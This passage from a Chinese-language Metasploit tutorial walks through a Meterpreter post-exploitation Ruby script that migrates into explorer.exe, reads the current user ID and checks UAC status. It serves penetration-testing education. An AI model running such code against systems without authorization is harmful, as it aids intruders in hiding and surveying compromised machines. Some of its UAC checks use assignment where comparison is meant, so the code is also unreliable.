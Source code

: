 在先前的代码中，我们检查用户是否属于管理员组。在逻辑上，前面的代码片段与先前的代码非常相似：

```

#Process Id Of the Explorer.exe Process 
current_pid = session.sys.process.getpid 
print_status("Current PID is #{current_pid}") 
session.sys.process.get_processes().each do |x| 
if x['name'].downcase == "explorer.exe" 
print_good("Explorer.exe Process is Running with PID #{x['pid']}") 
explorer_ppid = x['pid'].to_i 
# Migration to Explorer.exe Process 
session.core.migrate(explorer_ppid) 
current_pid = session.sys.process.getpid 
print_status("Current PID is #{current_pid}") 
end 
end  
```

这里的代码段非常有趣。我们首先使用`session.sys.process.getpid`找到当前进程 ID，然后使用`session.sys.process.get_processes()`上的循环遍历目标系统上的所有进程。如果找到任何名称为`explorer.exe`的进程，我们打印出一条消息并将其 ID 存储到`explorer_ppid`变量中。使用`session.core.migrate()`方法，我们将存储的进程 ID（`explorer.exe`）传递到`explorer.exe`进程中进行迁移。最后，我们只是再次打印当前进程 ID，以确保我们是否成功迁移：

```
# Finding the Current User 
print_status("Getting the Current User ID") 
currentuid = session.sys.config.getuid 
print_good("Current Process ID is #{currentuid}") 
```

在先前的代码中，我们只是使用`sessions.sys.config.getuid`方法找到当前用户的标识符：

```
#Checking if UAC is Enabled 
uac_check = is_uac_enabled? 
if(uac_check) 
print_error("UAC is Enabled") 
uac_level = get_uac_level 
if(uac_level = 5) 
print_status("UAC level is #{uac_level.to_s} which is Default") 
elsif (uac_level = 2) 
print_status("UAC level is #{uac_level.to_s} which is Always Notify") 
else 
print_error("Some Error Occured") 
end 
else 
print_good("UAC is Disabled") 
end 
```

前面的代码检查了目标系统上是否启用了 UAC。如果启用了 UAC，我们进一步深入，使用`get_uac_level`方法找到 UAC 的级别，并通过其响应值打印状态。

让我们将这段代码保存在`/scripts/meterpreter/gather.rb`目录中，并从 Meterpreter 中启动此脚本。这将给您一个类似于以下屏幕截图的输出：

![](img/c19600f6-ff72-4397-9699-4228a20765f6.png)
